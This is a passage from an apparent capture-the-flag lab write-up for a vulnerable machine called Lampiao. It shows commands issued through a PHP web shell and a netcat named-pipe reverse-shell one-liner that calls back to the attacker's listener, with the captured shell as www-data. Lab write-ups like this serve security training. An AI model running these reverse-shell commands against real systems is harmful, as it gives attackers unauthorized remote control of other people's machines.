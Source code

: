 ```bash
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://192.168.226.48:1898/shell.php' -d 'c=hostname'
lampiao>> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

# Post-Exploitation

---

## Get a Stable Shell

Use _revshellgen_ to generate a _nc-mknod_ reverse shell one-liner.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/lampiao]
└─$ revshellgen -i 192.168.45.217 -p 9001 -t nc-mknod

[+] Reverse shell command:

rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l

```

Run this one-liner in the PHP shell on the target.

```bash
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!

lampiao>> rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l
[!] WARNING: Detected an known bad character (>)

```

We get a reverse shell on our netcat listener.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/lampiao]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.226.48] 56476
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Enumerate Users

Locate user _tiago_

## Review settings.php
